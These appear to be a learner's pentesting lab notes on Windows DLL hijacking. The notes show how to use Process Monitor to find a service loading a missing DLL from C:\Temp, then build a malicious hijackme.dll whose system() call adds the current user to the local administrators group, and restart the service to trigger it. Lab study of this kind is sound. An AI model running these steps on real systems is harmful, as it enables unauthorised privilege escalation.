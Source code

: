 
**Detection**

try http://github.com/sensepost/rattler

==CHECK OUT== [[UT99#Privilege Escalation Vector 2]]
==CHECK OUT== [[UT99#Privilege Escalation Vector 2]]
==CHECK OUT== [[UT99#Privilege Escalation Vector 2]]

---
Show DLL's tied to specific exe.
```
tasklist /m | findstr "nvcontainer.exe"
```


Open the Tools folder that is located on the desktop and then go the Process Monitor folder.  

In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on Procmon.exe and select ‘Run as administrator’ from the menu.  

In procmon, select ‘Result’.  

In the input box on the same line type: 

```procmon - windows
NAME NOT FOUND  
```

Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’.


In procmon, select ‘Path’.  
In procmon, select ‘ends with'.  

In the input box on the same line type: 

```procmon - windows
.dll 
```

Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’, and lastly on ‘OK’.  



Open command prompt and type: 

```
sc start dllsvc  
```

Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it could not do that as the file was not found. Note that ‘C:\Temp’ is a writable location.

We have 2 results show up, 1 on "Program Files" and 1 in Temp.


**Exploitation**

Copy ‘C:\Users\User\Desktop\Tools\Source\windows_dll.c’ to the Kali VM.

Open windows_dll.c in a text editor and replace the command used by the system() function to: 

```mousepad - kali
cmd.exe /k net localgroup administrators %username% /add
```

Exit the text editor and compile the file by typing the following in the command prompt: 

```bash - kali
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll  
```

Copy the generated file hijackme.dll, to the Windows target.

Place hijackme.dll in ‘C:\Temp’.  

Open command prompt and type: 

```batch - windows
sc stop dllsvc & sc start dllsvc
```

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: 

```batch - windows
net localgroup administrators
```

